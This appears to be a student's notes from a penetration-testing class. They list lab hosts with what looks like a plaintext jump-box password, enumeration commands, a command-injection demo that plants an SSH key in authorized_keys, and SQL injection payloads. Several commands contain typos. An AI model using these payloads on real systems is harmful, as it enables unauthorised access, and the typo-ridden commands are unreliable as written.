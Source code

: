## Misc 

https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard


Jump Box:   ssh student@10.50.20.235 -X 
            CHT8QBJ8TQBlv7S
            JOHA-005-M

LinOps:     10.50.40.22   

WinBox:     10.50.37.222
             
ctf : server -> http://10.50.20.250:8000/

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
    
### Post Exploitation
            
